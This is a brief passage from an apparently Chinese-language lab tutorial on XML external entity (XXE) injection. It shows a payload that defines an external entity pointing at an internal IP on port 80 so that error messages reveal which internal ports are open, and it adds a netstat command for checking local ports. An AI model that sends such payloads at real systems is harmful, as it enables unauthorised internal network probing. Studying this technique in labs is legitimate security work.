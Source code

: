 ![图片](assets/图片13.png)

内网端口检测 payload：
```
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE note[
<!ENTITY Quan SYSTEM "http://192.168.246.136:80">
]>

<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>
```
探测80端口，显示报错信息
![图片](assets/图片14.png)

netstat -tln查看本机已开放哪些端口